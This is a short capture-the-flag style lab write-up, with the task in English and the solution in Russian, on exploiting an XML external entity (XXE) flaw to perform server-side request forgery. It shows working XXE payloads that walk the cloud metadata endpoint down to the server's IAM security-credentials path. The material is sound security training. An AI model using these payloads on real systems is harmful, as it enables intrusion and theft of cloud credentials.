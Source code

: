 # Exploiting XXE to perform SSRF attacks
APPRENTICE

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

## Решение
Отправлю с помощью XXE запрос на указанный в описании адрес `http://169.254.169.254/`:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY dummy SYSTEM "http://169.254.169.254/">]>
<stockCheck><productId>
&dummy;
</productId><storeId>1</storeId></stockCheck>
```
Ответ: `latest`. Не знаю, что это, но добавлю к адресу и выполню запрос ещё раз:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY dummy SYSTEM "http://169.254.169.254/latest">]>
<stockCheck><productId>
&dummy;
</productId><storeId>1</storeId></stockCheck>
```
Ответ: `meta-data`. Буду последовательно добавлять результат к URL, пока не получу конечный ответ:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [<!ENTITY dummy SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<stockCheck><productId>
&dummy;
</productId><storeId>1</storeId></stockCheck>
```
Задание выполнено.

